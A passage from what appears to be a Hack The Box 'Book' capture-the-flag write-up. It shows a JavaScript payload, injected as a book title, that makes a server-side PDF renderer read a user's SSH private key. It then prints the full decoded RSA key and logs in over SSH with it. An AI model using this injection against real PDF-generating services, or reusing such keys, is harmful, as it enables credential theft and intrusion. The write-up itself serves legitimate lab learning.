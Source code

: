     var otp = chunk(inp, 42).join('<br>');
    document.write(otp);
};
x.open("GET", "file:///home/reader/.ssh/id_rsa");
x.send();
</script>
{% endhighlight %}

I also need to mention that the 'chunk' function was stolen from a StackOverflow thread. After uploading a book with the above payload as a title, the pdf file contained the base64-encoded id_rsa file:

{% highlight bash %}

root@fury-battlestation:~/htb/blog/book# echo """base64_from_pdf""" | base64 -d > key
root@fury-battlestation:~/htb/blog/book# cat key 
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJ
G8m6UNZyRGj77eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnVCpiHPpJ0
WxtCK0VlQUwxZ6953D16uxlRH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80NdjUCl/0
ePV8RKoYVWuVRb4nFG1Es0bOj29lu64yWd/j3xWXHgpaJciHKxeNlr8x6NgbPv4s
7WaZQ4cjd+yzpOCJw9J91Vi33gv6+KCIzr+TEfzI82+hLW1UGx/13fh20cZXA6PK
75I5d5Holg7ME40BU06Eq0E3EOY6whCPlzndVwIDAQABAoIBAQCs+kh7hihAbIi7
3mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXjrP8ke/Pukg/OmDETXmtgToFwxsD+
McKIrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXWQfgHThhPWHJI+3iuQRwzUI
tIGcAaz3dTODgDO04Qc33+U9WeowqpOaqg9rWn00vgzOIjDgeGnbzr9ERdiuX6WJ
jhPHFI7usIxmgX8Q2/nx3LSUNeZ2vHK5PMxiyJSQLiCbTBI/DurhMelbFX50/owz
7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lcPzvVGOEGQzkuu4ljFkYz6sZ8GMx6
GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmTmk3A7jOwke0o8/4FL
E2vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZiPlSNbc8/
ciqzwDZfSg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAoGBAOe+
SRM/Abh5xub6zThrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei6Sv8et7l
skGl3dh4M/2Tgl/gYPwUKI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickgD2fv+V
o5GVjWTOlfEj74k8hC6GjzWHna0pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9l/g7m
Hc5LOGww+NqzB0HtsUprN6YpJ7AR6+YlEcItMl/FOW2AFbkzoNbHT9GpTj5ZfacC
hBhBp1ZeeShvWobqjKUxQmbp2W975wKR4MdsihUlpInwf4S2k8J+fVHJl4IjT80u
Pb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7IUwfIBFnzqZ27pOAMYkh
sMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyfcdwQHc2XoY8YCf
tdBBP0Uv2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZXndVc/zLi
5bBLnzECgYEAlLiYGzP92qdmlKLLWS7nPM0YzhbN9q0qC3ztk/+1v8pjj162pnlW
y1K/LbqIV3C01ruxVBOV7ivUYrRkxR/u5QbS3WxOnK0FYjlS7UUAc4r0zMfWT9TN
nkeaf9obYKsrORVuKKVNFzrWeXcVx+oG3NisSABIprhDfKUSbHzLIR4=
-----END RSA PRIVATE KEY-----
root@fury-battlestation:~/htb/blog/book#

{% endhighlight %}

I the used the private key to ssh into reader:

{% highlight bash %}

root@fury-battlestation:~/htb/blog/book# ssh reader@book.htb -i ~/.ssh/book_user 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.4.1-050401-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Mar 18 11:29:17 UTC 2020

  System load:  0.26               Processes:            180
  Usage of /:   26.6% of 19.56GB   Users logged in:      0
  Memory usage: 26%                IP address for ens33: 10.10.10.176
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch